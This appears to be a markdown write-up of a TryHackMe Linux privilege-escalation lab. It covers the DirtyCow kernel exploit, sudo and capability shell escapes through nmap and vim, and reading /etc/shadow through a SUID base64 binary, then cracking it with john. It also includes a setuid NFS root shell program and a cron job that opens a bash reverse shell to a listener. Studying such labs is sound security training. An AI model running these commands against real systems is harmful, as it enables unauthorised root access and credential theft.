 # Writeup to https://tryhackme.com/room/linprivesc

##Task 3: Enumeration


`set -g IP 10.10.110.229`

## Task 5: Kernel Exploits

```
set -gx IP 10.10.123.25
```

* Searched for possible exploits with linx-exploit-suggestor.sh
* Found DirtyCow Exploits [here](https://dirtycow.ninja/)
* Started simple http server with `python3 -m http.server 8888`
* Downloaded Dirtycow exploit with `wget $IP/cowroot.c`
* Compiled c script `gcc -pthread cowroot.c -o cowroot`
* Executed cowroot `./cowroot`

## Task 6: Sudo

```
set -gx IP 10.10.113.23
```

* Start a shell with sudo enabled nmap `sudo nmap --interactive`
* Found ways to create shell with commands [here](https://gtfobins.github.io/)


## Task 7: SUID

```
set -gx IP 10.10.72.7
```

* Searching for files with 's'-right `find / -type f -perm -04000 -ls 2>/dev/null`
* Compared list with gtfobins.github.io
* Found base64
* Read /home/ubuntu/flag3.txt
* Read /etc/passwd & downloaded
* Read /etc/shadow & downloaded
* Using `unshadow passwd shadow > passwords.txt`
* Using John to [crack](https://erev0s.com/blog/cracking-etcshadow-john/): `john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`
* Found password of user2: **Password1**
* Found password of johnconway: **test123**

## Task 8: Capabilities

```
set -gx IP 10.10.89.75
```

* Search for Capabilities with `getcap -r / 2>/dev/null`
* Found 6 programs
* Using vim to start shell `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`


## Task 9: Cron Jobs

```
set -gx IP 10.10.100.247
```

* added following code to file mentioned in /etc/crontab
```
# /tmp/test.py

#!/bin/bash
bash -i >& /dev/tcp/10.8.60.141/8888 0>&1
```

* Started listener on local machine:
```bash
nc -nlvp 8888
```


## Task 10: PATH

```
set -gx IP 10.10.69.147
```

* searching for writable folders (and remove `proc` folder)

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

* echoing PATH
* modifiying PATH
* cd in `/home/murdoch`
* running `./test` instead of `test`

## Task 11: NFS

```
set -gx IP 10.10.85.67
```

* displaying mountable folders of server `showmount -e $IP`
* mounting folder `sudo mount $IP:/tmp /tmp/mountedfolder`
* creating C File on mounted folder `nfs.c`

```c
int main()
{
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0
}

```

* compiled as local root `sudo gcc nfs.c -o nfs`
* added suid flag `sudo +s nfs`
* added execution flag `sudo +x nfs`
* execute nfs as local user `/tmp/nfs`
* got sudo shell


## Task 12: Capstone Challenge

```
set -gx IP 10.10.116.121
```

* search for writable folder `find / -writeable 2>/dev/null` -> none found
* search for sudoable files `sudo -l` -> leonhard not in sudoers file
* searched for suid set binaries `find / -perm 04000 2>/dev/null` -> found base64 command
* downlaoded `/etc/passwd` and read `/etc/shadow` with

```
LFILE=/etc/shadow
base64 "${LFILE}" | base64 --decode
```

* copyied content in shadow
* unshadowed file with `unshadow passwd shadow > passwords.txt`
* using john the ripper to crack `john --wordlist=/usr/share/wordlists/rockyou.txt`
* found password and logged in as found user `su <username>`
* searched for sudoable files `sudo -l` -> found `find` command
* executed sudo shell with command found [here](https://gtfobins.github.io/gtfobins/find/)
